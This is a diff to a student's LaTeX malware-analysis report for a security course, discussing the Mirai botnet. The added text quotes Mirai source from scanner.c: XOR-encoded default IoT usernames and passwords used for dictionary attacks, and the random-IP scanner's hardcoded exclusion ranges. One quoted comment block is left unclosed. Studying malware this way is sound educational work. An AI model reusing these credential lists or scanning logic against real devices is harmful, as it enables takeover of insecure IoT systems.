

Before and after one commit to akielaries/NAU-CYB410, a LaTeX problem sheet (assignment-2/reports/assignment2.tex): two parts of pages 3 and 5 of 6 before the commit and two parts of pages 3 and 4 of 8 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
changes to assignment 2 latex file more malware analysis

```diff
--- a/assignment-2/reports/assignment2.tex
+++ b/assignment-2/reports/assignment2.tex
@@ -109,11 +109,48 @@
 \end{center}
 
 Mirai makes use of launching GRE IP (Generic Routing Encapsulation) \& GRE ETH floods
-in conjunction with SYN \& ACK floods.
+in conjunction with SYN \& ACK floods. Another important piece of the code is the
+hardcoding/bypassing taking place that implies more security risks.
 
 
-Interesting enough, within the code some addresses are hardcoded not to visit when
-performing the IP scan for inital infection. Some of the
+The scanner.c file does most of the initializing and calling of source. So within this
+file the first thing that caught my attention was the \verb|void scanner_init(void)|
+function. In the function we can see a series of \verb|add_auth_entry| calls that add
+in usernames as well as password to perform a dictionary attack to sign in to insecure
+IoT devices. Which seems to be the biggest fix to preventing this piece of malware from
+infecting your system, using a somewhat secure password!
+
+\begin{verbatim}
+// Set up passwords
+// root     xc3511
+add_auth_entry("\x50\x4D\x4D\x56",
+"\x5A\x41\x11\x17\x13\x13", 10);
+// root     vizxv
+add_auth_entry("\x50\x4D\x4D\x56",
+"\x54\x4B\x58\x5A\x54", 9);
+// root     admin
+add_auth_entry("\x50\x4D\x4D\x56",
+"\x43\x46\x4F\x4B\x4C", 8);
+// admin    admin
+add_auth_entry("\x43\x46\x4F\x4B\x4C",
+"\x43\x46\x4F\x4B\x4C", 7);
+// root     888888
+add_auth_entry("\x50\x4D\x4D\x56",
+"\x1A\x1A\x1A\x1A\x1A\x1A", 6);
+// root     xmhdipc
+add_auth_entry("\x50\x4D\x4D\x56",
+"\x5A\x4F\x4A\x46\x4B\x52\x41", 5);
+// root     default
+add_auth_entry("\x50\x4D\x4D\x56",
+"\x46\x47\x44\x43\x57\x4E\x56", 5);
+\end{verbatim}
+
+
+Interesting enough, within the scanner.c file some addresses are hardcoded not to visit
+when performing the IP scan for inital infection. The Department of Defense, the US Postal
+Service, GE, HP as well as the Internet Assigned Numbers Authority (IANA) + more were
+deemed as invalid for scanning.
+
 
 \begin{verbatim}
 static ipv4_t get_random_ip(void)
@@ -130,21 +167,46 @@
         o3 = (tmp >> 16) & 0xff;
         o4 = (tmp >> 24) & 0xff;
     }
-    while (o1 == 127 ||                             // 127.0.0.0/8      - Loopback
-          (o1 == 0) ||                              // 0.0.0.0/8        - Invalid address space
-          (o1 == 3) ||                              // 3.0.0.0/8        - General Electric Company
-          (o1 == 15 || o1 == 16) ||                 // 15.0.0.0/7       - Hewlett-Packard Company
-          (o1 == 56) ||                             // 56.0.0.0/8       - US Postal Service
-          (o1 == 10) ||                             // 10.0.0.0/8       - Internal network
-          (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
-          (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
-          (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
-          (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
-          (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
-          (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
-          (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21 || o1 == 22 || o1 == 26 || o1 == 28
-          || o1 == 29 || o1 == 30 || o1 == 33 || o1 == 55 || o1 == 214 || o1 == 215)
-          // Department of Defense
+    while (o1 == 127 || // 127.0.0.0/8      - Loopback
+          // 0.0.0.0/8		- Invalid address space
+          (o1 == 0) ||
+          // 3.0.0.0/8		- General Electric Company
+          (o1 == 3) ||
+          // 15.0.0.0/7		- Hewlett-Packard Company
+          (o1 == 15 || o1 == 16) ||
+          // 56.0.0.0/8       - US Postal Service
+          (o1 == 56) ||
+          // 10.0.0.0/8       - Internal network
+          (o1 == 10) ||
+          // 192.168.0.0/16   - Internal network
+          (o1 == 192 && o2 == 168) ||
+          // 172.16.0.0/14    - Internal network
+          (o1 == 172 && o2 >= 16 && o2 < 32) ||
+          // 100.64.0.0/10    - IANA NAT reserved
+          (o1 == 100 && o2 >= 64 && o2 < 127) ||
+          // 169.254.0.0/16   - IANA NAT reserved
+          (o1 == 169 && o2 > 254) ||
+          // 198.18.0.0/15    - IANA Special use
+          (o1 == 198 && o2 >= 18 && o2 < 20) ||
+          // 224.*.*.*+       - Multicast
+          (o1 >= 224) ||
+		  /*
+		   * 6.0.0.0/7                 - Department of Defense
+		   * 11.0.0.0/8                - Department of Defense
+		   * 21.0.0.0/8                - Department of Defense
+		   * 22.0.0.0/8                - Department of Defense
+		   * 26.0.0.0/8                - Department of Defense
+		   * 28.0.0.0/7                - Department of Defense
+		   * 30.0.0.0/8                - Department of Defense
+		   * 33.0.0.0/8                - Department of Defense
+		   * 55.0.0.0/8                - Department of Defense
+		   * 214.0.0.0/7               - Department of Defense
+		  /*
+          (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21
+          || o1 == 22 || o1 == 26 || o1 == 28
+          || o1 == 29 || o1 == 30 || o1 == 33
+          || o1 == 55 || o1 == 214 || o1 == 215)
+
     );
 
     return INET_ADDR(o1,o2,o3,o4);
@@ -171,9 +233,6 @@
     stomp_setup_nums:
 
 \end{verbatim}
-
-Another important piece of the code is the hardcoding/bypassing taking place that
-implies more security risks. Mirai
 
 
 \begin{verbatim}
```
Also changed, not shown: assignment-2/reports/assignment2.pdf, 3 other files.
